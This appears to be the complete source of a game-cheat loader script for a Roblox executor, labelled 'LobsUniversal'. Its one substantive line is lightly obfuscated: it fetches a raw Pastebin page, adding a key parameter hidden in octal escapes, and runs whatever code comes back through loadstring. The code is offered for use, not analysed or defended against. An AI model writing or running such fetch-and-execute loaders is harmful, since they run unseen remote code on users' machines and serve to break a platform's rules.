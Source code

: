 getgenv().mainKey = "nil"

local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,"https://pastebin.com/raw/2mNMmAMe";c(a and b,"EXEnotsupported")a(b({Url=e.."?\107e\121\61"..d(mainKey),Headers={["User-Agent"]="LobsUniversal"}}).Body)()
